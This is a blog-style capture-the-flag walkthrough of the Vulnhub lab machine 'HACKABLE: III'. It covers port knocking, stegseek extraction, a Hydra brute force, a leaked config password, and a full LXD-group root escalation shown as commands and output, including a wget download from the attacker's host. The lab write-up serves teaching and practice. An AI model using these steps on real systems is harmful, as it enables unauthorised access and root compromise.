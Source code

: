 ```yaml
---
layout: post
title:  "HACKABLE: III"
date:   2021-09-17 22:00:00 +1000
category: hacking
---
```


There has been nothing good on THM for a little while now, so I'm working back through some older Vulnhub machines. Not that this is particularly old, but whatever. I had **looz** in my list so I thought I might do that; once I booted it up I remembered that I already had finished the box but hadn't bothered writing it up. Ooof. Oh and I've also done **doubletrouble** but haven't written it up.

Anyway this was [HACKABLE: III](https://www.vulnhub.com/entry/hackable-iii,720/).

## Let's Go
HTTP only. Let's start pokin' around. A comment in the page source on the webroot says:

>Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com

So...sounds like port knocking. Robots.txt disallows */config*, which contains 1.txt, which contains: MTAwMDA=, which is 10000 in base64. That's our first port.

We find port 2 here: *http://192.168.1.100/css/2.txt*. This contains some brainfuck, which decodes to 4444; that's our second port. 

Viewing the source for *http://192.168.1.100/login.php* gives us:

{% highlight php %}
<?php
include('config.php');

$usuario = $_POST['user'];
$senha = $_POST['pass'];

$query = " SELECT * FROM usuarios WHERE user = '{$usuario}' and pass = '{$senha}'";  
$result = mysqli_query($conexao, $query);
$row = mysqli_num_rows($result);

#validaÃ§Ã£o conta
if($row == 1) {
	$_SESSION['usuario'] = $usuario;
	header('Location: 3.jpg');
	exit();
} else {
	$_SESSION['nao_autenticado'] = true;
	header('Location: login_page/login.html');
	exit();
}
?>
{% endhighlight %}

So, if we go get 3.jpg we can run stegseek on it...

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hackable3]
└─# stegseek 3.jpg            
StegSeek version 0.5
Progress: 0.00% (0 bytes)           

[i] --> Found passphrase: ""
[i] Original filename: "steganopayload148505.txt"
[i] Extracting to "3.jpg.out"
                                            
┌──(root💀kali)-[/opt/vulnhub/hackable3]
└─# cat 3.jpg.out 
porta:65535           
{% endhighlight %}

And there's our third port. Note you don't *have* to use three ports for port knocking, but it's common in CTFs.

Let's see if it works:

``
knock 192.168.1.100 10000 4444 65535
``

Re-run the port scan, and bingo we have SSH open.

### SSH
We already had two potential usernames:

1. jubiscleudo, and
2. dev_suport

And in the course of our fuzzing the webserver, we turned up **http://192.168.1.100/backup/wordlist.txt** which has 300 entries. I run it first with *dev_suport* with Hydra; no dice. But it's bingo with *jubiscleudo*.

Once we get on, we have one other main user: *hackable_3*. We can find his password in */var/www/html/.backup_config.php*

{% highlight php %}
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'hackable_3');
define('DB_PASSWORD', 'TrOLLED_3');
define('DB_NAME', 'hackable');
 
/* Attempt to connect to MySQL database */
$conexao = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);


// Check connection
if($conexao === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
} else {
}
?>
{% endhighlight %}

There is no mysql on the box, but **TrOLLED_3** works for hackable_3. *hackable_3* is in the lxd group, so that's it:

{% highlight shell %}
hackable_3@ubuntu20:~$ wget http://192.168.1.210:9090/alpine-v3.14-x86_64-20210910_2324.tar.gz
--2021-09-17 12:12:38--  http://192.168.1.210:9090/alpine-v3.14-x86_64-20210910_2324.tar.gz
Connecting to 192.168.1.210:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3253157 (3.1M) [application/x-tar]
Saving to: ‘alpine-v3.14-x86_64-20210910_2324.tar.gz’

alpine-v3.14-x86_64-20210910_2324.tar.gz            100%[================================================================================================================>]   3.10M  --.-KB/s    in 0.02s   

2021-09-17 12:12:38 (172 MB/s) - ‘alpine-v3.14-x86_64-20210910_2324.tar.gz’ saved [3253157/3253157]

hackable_3@ubuntu20:~$ lxc image list
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04

+-------+-------------+--------+-------------+--------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCHITECTURE | TYPE | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+--------------+------+------+-------------+
hackable_3@ubuntu20:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (lvm, zfs, ceph, btrfs, dir) [default=zfs]: 
Create a new ZFS pool? (yes/no) [default=yes]: 
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=5GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like the LXD server to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
hackable_3@ubuntu20:~$ lxc image import alpine-v3.14-x86_64-20210910_2324.tar.gz --alias alpine
Image imported with fingerprint: 1b9b6768ec27c8c3e20e09ccd8c1f3bc6a4a9e55b0a858926545c4ad3c88562b
hackable_3@ubuntu20:~$ lxc image list
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |          UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| alpine | 1b9b6768ec27 | no     | alpine v3.14 (20210910_23:24) | x86_64       | CONTAINER | 3.10MB | Sep 17, 2021 at 12:13pm (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
hackable_3@ubuntu20:~$ lxc init alpine privesc -c security.privileged=true
Creating privesc
hackable_3@ubuntu20:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
hackable_3@ubuntu20:~$ lxc start privesc
hackable_3@ubuntu20:~$ lxc exec privesc /bin/sh
~ # cd /mnt/root/root
/mnt/root/root # ls -lash
total 48K    
     4 drwx------    6 root     root        4.0K Jun 29 19:44 .
     4 drwxr-xr-x   21 root     root        4.0K Apr 29 16:32 ..
     0 -rw-------    1 root     root           0 Jun 30 20:46 .bash_history
     4 -rw-r--r--    1 root     root        3.0K Aug 14  2019 .bashrc
     4 drwx------    2 root     root        4.0K Apr 29 16:11 .cache
     4 -rw-------    1 root     root          28 Jun 29 19:44 .lesshst
     4 drwxr-xr-x    3 root     root        4.0K Apr 29 16:28 .local
     4 -rw-r--r--    1 root     root         161 Sep 16  2020 .profile
     4 -rw-r--r--    1 root     root          66 Apr 29 16:37 .selected_editor
     4 drwx------    2 root     root        4.0K Apr 27 15:07 .ssh
     4 -rwxr-xr-x    1 root     root          46 Jun 28 23:21 knockrestart.sh
     4 -rw-------    1 root     root        2.7K Jun 28 23:41 root.txt
     4 drwxr-xr-x    3 root     root        4.0K Apr 27 15:07 snap
/mnt/root/root # cat root.txt
░░█▀░░░░░░░░░░░▀▀███████░░░░
░░█▌░░░░░░░░░░░░░░░▀██████░░░
░█▌░░░░░░░░░░░░░░░░███████▌░░
░█░░░░░░░░░░░░░░░░░████████░░
▐▌░░░░░░░░░░░░░░░░░▀██████▌░░
░▌▄███▌░░░░▀████▄░░░░▀████▌░░
▐▀▀▄█▄░▌░░░▄██▄▄▄▀░░░░████▄▄░
▐░▀░░═▐░░░░░░══░░▀░░░░▐▀░▄▀▌▌
▐░░░░░▌░░░░░░░░░░░░░░░▀░▀░░▌▌
▐░░░▄▀░░░▀░▌░░░░░░░░░░░░▌█░▌▌
░▌░░▀▀▄▄▀▀▄▌▌░░░░░░░░░░▐░▀▐▐░
░▌░░▌░▄▄▄▄░░░▌░░░░░░░░▐░░▀▐░░
░█░▐▄██████▄░▐░░░░░░░░█▀▄▄▀░░
░▐░▌▌░░░░░░▀▀▄▐░░░░░░█▌░░░░░░
░░█░░▄▀▀▀▀▄░▄═╝▄░░░▄▀░▌░░░░░░
░░░▌▐░░░░░░▌░▀▀░░▄▀░░▐░░░░░░░
░░░▀▄░░░░░░░░░▄▀▀░░░░█░░░░░░░
░░░▄█▄▄▄▄▄▄▄▀▀░░░░░░░▌▌░░░░░░
░░▄▀▌▀▌░░░░░░░░░░░░░▄▀▀▄░░░░░
▄▀░░▌░▀▄░░░░░░░░░░▄▀░░▌░▀▄░░░
░░░░▌█▄▄▀▄░░░░░░▄▀░░░░▌░░░▌▄▄
░░░▄▐██████▄▄░▄▀░░▄▄▄▄▌░░░░▄░
░░▄▌████████▄▄▄███████▌░░░░░▄
░▄▀░██████████████████▌▀▄░░░░
▀░░░█████▀▀░░░▀███████░░░▀▄░░
░░░░▐█▀░░░▐░░░░░▀████▌░░░░▀▄░
░░░░░░▌░░░▐░░░░▐░░▀▀█░░░░░░░▀
░░░░░░▐░░░░▌░░░▐░░░░░▌░░░░░░░
░╔╗║░╔═╗░═╦═░░░░░╔╗░░╔═╗░╦═╗░
░║║║░║░║░░║░░░░░░╠╩╗░╠═╣░║░║░
░║╚╝░╚═╝░░║░░░░░░╚═╝░║░║░╩═╝░

invite-me: linkedin.com/in/eliastouguinho
/mnt/root/root # 
{% endhighlight %}

